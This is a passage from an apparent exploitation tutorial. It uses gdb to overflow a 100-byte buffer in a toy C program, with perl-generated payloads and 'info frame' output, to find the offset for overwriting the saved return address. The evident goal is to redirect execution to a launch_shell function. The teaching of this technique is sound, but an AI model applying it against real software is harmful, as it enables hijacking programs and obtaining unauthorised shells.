 ```
```
Now we can run the program using
```
run aaa
```
which will run the program with `aaa` as input. The program now stops at our breakpoint:
```
Starting program: functions aaa
* [DEBUG] Your input: aaa
* [DEBUG] The function launch_shell is at 0x5555555548e4
Breakpoint 1, 0x00005555555548e3 in check_passphrase (passphrase=0x7fffffffe461 "aaa") at functions.c:16
16	}
```
Now we can look at the value of the return pointer using the command
```
info frame
```
This gives us the following output:
```
Stack level 0, frame at 0x7fffffffe060:
rip = 0x5555555548e3 in check_passphrase (functions.c:16); saved rip = 0x555555554987
called by frame at 0x7fffffffe080
source language c.
Arglist at 0x7fffffffe070, args: passphrase=0x7fffffffe461 "aaa"
Locals at 0x7fffffffe070, Previous frame's sp is 0x7fffffffe060
Saved registers:
rbp at 0x7fffffffe050, rip at 0x7fffffffe058
```
Nothing too interesting really, but that makes sense since our input was `aaa`, we did not overflow the buffer yet. Lets try another input (150 A's):
```
r $(perl -e 'print "A"x150')
```
and we do `info frame` again:
```
Stack level 0, frame at 0x7fffffffdfd0:
rip = 0x5555555548e3 in check_passphrase (functions.c:16); saved rip = 0x4141414141414141
called by frame at 0x7fffffffdfd8
source language c.
Arglist at 0x4141414141414141, args: passphrase=0x7fffffffe3d8 'A' <repeats 140 times>
Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffdfd0
Saved registers:
rbp at 0x7fffffffdfc0, rip at 0x7fffffffdfc8
```
As you can see, we have overwritten the frame pointer (arglist, locals) aswell as the return pointer (saved rip). If we continue the program using `continue` command we now get a `Segmentation fault`.

So we know that 150 A's is too much, but how many is enough to reach the `return pointer`? We know that the buffer is 100 bytes and the frame pointer is 8 bytes, so it has to be atleast 108 bytes. We can use a smart trick to hint us how many bytes we need exactly, instead of doing only A's we also do some B's, C's, etc:
```
r $(perl -e 'print "A"x108 . "BBBBCCCCDDDDEEEEFFFFGGGG"')
```
if we know run it and do `info frame` we get
```
Stack level 0, frame at 0x7fffffffdfe0:
rip = 0x5555555548e3 in check_passphrase (functions.c:16); saved rip = 0x4646464645454545
called by frame at 0x7fffffffdfe8
source language c.
Arglist at 0x4444444443434343, args: passphrase=0x7fffffffe3e0 'A' <repeats 108 times>, "BBBBCCCCDDDDEEEEFFFFGGGG"
Locals at 0x4444444443434343, Previous frame's sp is 0x7fffffffdfe0
Saved registers:
```
